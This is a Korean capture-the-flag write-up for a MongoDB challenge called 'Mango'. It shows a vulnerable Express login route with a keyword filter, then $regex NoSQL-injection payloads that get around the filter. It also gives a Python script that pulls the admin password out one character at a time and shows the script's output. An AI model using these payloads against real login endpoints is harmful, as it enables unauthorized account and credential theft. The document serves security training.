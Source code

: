 # NoSQL-Injection
SQL Injection과 매우 유사한 방식이고, 두 공격 모두 이용자의 입력값이 쿼리에 포함되면서 발생하는 문제점이다. MongoDB의 NoSQL Injection 취약점은 주로 이용자의 입력값에 대한 타입 검증이 불충분할 때 발생한다

# Mango(Exercies)
admin의 계정 비밀번호가 flag 값이다. 아래는 express 프레임워크로 실행 중인 문제 코드이다.

```javascript
const express = require('express');
const app = express();

const mongoose = require('mongoose');
mongoose.connect('mongodb://localhost/main', { useNewUrlParser: true, useUnifiedTopology: true });
const db = mongoose.connection;

// filter 함수 ==============================
// flag is in db, {'uid': 'admin', 'upw': 'DH{32alphanumeric}'}
const BAN = ['admin', 'dh', 'admi'];

filter = function(data){
    const dump = JSON.stringify(data).toLowerCase();
    var flag = false;
    BAN.forEach(function(word){
        if(dump.indexOf(word)!=-1) flag = true;
    });
    return flag;
}
// ================================================

app.get('/login', function(req, res) {
    if(filter(req.query)){  // filter  함수가 실행된다
        res.send('filter');
        return;
    }
    const {uid, upw} = req.query;

    db.collection('user').findOne({ // db에서 uid, upw 검색
        'uid': uid,
        'upw': upw,
    }, function(err, result){
        if (err){
            res.send('err');
        }else if(result){
            res.send(result['uid']);
        }else{
            res.send('undefined');
        }
    })
});

app.get('/', function(req, res) {
    res.send('/login?uid=guest&upw=guest');
});

app.listen(8000, '0.0.0.0');

```
1. `/login` 페이지 요청시에서는 이용자가 쿼리로 전달한 uid, upw로 데이터에비스를 검색하고 찾아낸 이용자의 정보를 반환한다
2.  filter 함수는 일부 문자열을 필터링하는 함수이다. 필터링 함수는 admin, dh, admi 라는 문자열이 있을 때 true를 반환한다
3. 코드에서 db에서 uid,upw 검색하는 부분을 보면 쿼리 변수의 타입을 검사하지 않는다. 이로 인해서 타입이 string 뿐만아니라 object 타입도 쿼리가 가능하기 때문에 NoSQL Injection 공격이 가능해진다.

# 익스플로잇
`/login?uid=guest&upw=guest`을 입력하면 이용자의 uid만 출력된다. flag 를 얻기 위해선 upw를 획득해야하기 때문에 다음과 같은 방법으로 익스플로잇한다
1. Blind NoSQL Injection Payload 생성
`$regex` 연산을 사용하여 정규표현식을 이용해 데이터를 검색한다.
```
/login?uid=guest&upw[$regex]=.*

guest
```
만약 upw가 일치하는 경우 uid를, 아닌경우 undefined 문자열이 출력되는 것을 통해 참과 거짓을 확인 할 수 있다

2. filter 우회
filter 함수는 admin, dh, admi 문자열을 필터링하지만 정규표현식에서 임의 문자를 표현하는 `.`을 이용하여 쉽게 우회한다
```
/login?uid[$regex]=ad.in&upw[$regex]=D.{*

admin
```

3. Exploit Code 작성
이제는 한글자씩 알아내야하므로, 여러번 쿼리를 전달해야하는데 이를 자동화하는 스크립트 코드를 작성하여 실행한다.
```python
import requests, string

HOST = 'http://localhost'
ALPHANUMERIC = string.digits + string.ascii_letters
SUCCESS = 'admin'

flag = ''

for i in range(32):
    for ch in ALPHANUMERIC:
        response = requests.get(f'{HOST}/login?uid[$regex]=ad.in&upw[$regex]=D.{{{flag}{ch}')
        if response.text == SUCCESS:
            flag += ch
            break
    
    print(f'FLAG: DH{{{flag}}}')

# kali linux 에서 코드 작성 후 실행
└─$ python3 nosql.py 
FLAG: DH{8}
FLAG: DH{89}
FLAG: DH{89e}
FLAG: DH{89e5}
FLAG: DH{89e50}
FLAG: DH{89e50f}
FLAG: DH{89e50fa}
FLAG: DH{89e50fa6}
FLAG: DH{89e50fa6f}
FLAG: DH{89e50fa6fa}
FLAG: DH{89e50fa6faf}
FLAG: DH{89e50fa6fafe}
FLAG: DH{89e50fa6fafe2}
FLAG: DH{89e50fa6fafe26}
FLAG: DH{89e50fa6fafe260}
FLAG: DH{89e50fa6fafe2604}
FLAG: DH{89e50fa6fafe2604e}
FLAG: DH{89e50fa6fafe2604e3}
FLAG: DH{89e50fa6fafe2604e33}
FLAG: DH{89e50fa6fafe2604e33c}
FLAG: DH{89e50fa6fafe2604e33c0}
FLAG: DH{89e50fa6fafe2604e33c0b}
FLAG: DH{89e50fa6fafe2604e33c0ba}
FLAG: DH{89e50fa6fafe2604e33c0ba0}
FLAG: DH{89e50fa6fafe2604e33c0ba05}
FLAG: DH{89e50fa6fafe2604e33c0ba058}
FLAG: DH{89e50fa6fafe2604e33c0ba0584}
FLAG: DH{89e50fa6fafe2604e33c0ba05843}
FLAG: DH{flag                         }
FLAG: DH{flag                          }
FLAG: DH{flag                           }
FLAG: DH{flag 가리기~~~!!!!!!!!!!!!!!!!!!}
```
위와 같이 코드를 작성하여 실행 시키면 flag 값을 획득 할 수 있다.

